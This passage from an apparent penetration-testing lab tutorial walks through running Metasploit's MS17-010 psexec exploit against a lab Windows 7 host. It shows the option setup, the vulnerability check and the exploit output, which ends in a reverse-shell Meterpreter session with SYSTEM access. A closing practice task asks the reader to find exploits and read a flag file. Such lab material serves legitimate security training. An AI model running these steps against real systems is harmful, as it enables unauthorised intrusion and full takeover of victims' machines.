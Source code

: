 ```Output
```

If **REQUIRED** is set to YES, that means for the exploit to actually work, you must have that option properly configured.
**In the option above, there are 2 required:**
- **RHOSTS** - You must have the IP of the target
- **LHOST** - IP of the ATTACK Host, for us, it will be our tun0 interface. 
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```
RHOSTS is set to the machine we are attacking 
LHOST is set to our machine we are attacking with 

**Before we can finally attack, we must ensure the server is vulnerable**
```Input
msf6 exploit(windows/smb/ms17_010_psexec) > check
```
```Output
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```
**While the *check* function will not always work, here it shows the website is indeed vulnerable**

**To finally run the exploit, we run this:**
```Input
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
```Output

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```
**The exploit used was able to give us access to the machine, and now are the admin user**

## Practice Box 

*Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file.*
